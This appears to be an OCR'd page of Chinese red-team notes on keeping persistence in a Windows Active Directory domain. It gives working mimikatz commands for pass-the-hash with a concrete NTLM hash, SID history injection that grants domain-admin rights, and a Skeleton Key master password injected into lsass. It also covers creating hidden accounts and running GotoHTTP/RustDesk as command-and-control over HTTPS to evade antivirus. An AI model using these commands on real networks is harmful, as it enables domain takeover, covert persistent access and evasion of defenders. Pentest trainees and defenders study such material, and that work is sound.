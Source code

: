 ~~~
4.利用PTH传递攻击
privilege::debug
sekurlsa::pth /domain:owa2010cn-god /user:administrator /ntlm:b097d7ed97495408e1537f706c357fc5
dir \\owa2010cn-god\c$
技术总结：
利用系统自带机制模式DSRM，修改DSRM默认登录方式和属性，通过其同步krgtgt进行PTH攻击，实现持续化控制，但适用于系统=>windows server2008。每个域控制器都有本地管理员账号和密码（与域管理员账号和密码不同）。DSRM账号可以作为一个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器。

#内网域-权限维持-基于用户属性修改-SID history
1、获取某用户SID属性：
Import-Module ActiveDirectory
Get-ADUser webadmin -Properties sidhistory
2、给予某用户administrator属性：
privilege::debug
sid::patch
sid::add /sam:webadmin /new:administrator
3、测评给与前后的DC访问权限：
dir \\192.168.3.21\c$
技术总结：
把域控管理员的SID加入到 其他某个 恶意的域账户的SID History中，然后，这个恶意的（我们自己创建的）域账户就可以域管理员权限访问域控了，不修改域账户一直存在。

#内网域-权限维持-基于登录进程劫持-Skeleton Key
1、测试域内某个用户与DC通讯
dir \\owa2010cn-god\c$
2、连接DC后，DC注入lsass进程
net use \\192.168.3.21\ipc$ "Admin12345" /user:god\administrator
mimikatz：
privilege::debug
misc::skeleton
3、重新测试域内某个用户与DC通讯
net use \\owa2010cn-god\ipc$ "mimikatz" /user:god\administrator
dir \\owa2010cn-god\c$
技术总结：
因为Skeleton Key技术是被注入到lsass.exe进程的，
所以它只存在内存中，如域控重启，万能密码将失效。

~~~

![image.png](https://img12.360buyimg.com/ddimg/jfs/t1/89918/28/34759/21959/64817111F876cefc3/60901559f0df4b70.jpg)

~~~
1.权限维持-基于用户-隐藏用户
https://github.com/wgpsec/CreateHiddenAccount
CreateHiddenAccount -u xiaodi -p Xiaodi!@#45
控制面板能查看到，命令查看看不到，单机版无法删除，域环境可以删除



2.基于软件-GotoHTTP&RustDesk
C2 GotoHTTP
https://gotohttp.com/goto/download.12x
无网络（1、压根没有网络，2、限制出网）
1、有网络，无限制
2、有网络，有限制（不限制https就可以）
3、无网络，有限制（不限制https就可以）
利用场景：有网络下，需要绕过杀毒等网络防护
B2C模式，无需安装控制端软件，有浏览器就可以远控。
流量走https协议，只要目标放行443端口出口就可以实现内网穿透。
在低带宽也可以使用，运行占用内存极低，控制时占用CPU仅为0%-3%。
被控端在类Linux系统上支持图形界面（GUI）和字符界面（CLI）。
网络唤醒远程主机需加载驱动，导致运行时安全卫士会拦截这行为，其他杀软不会拦截。

C2 RustDesk
~~~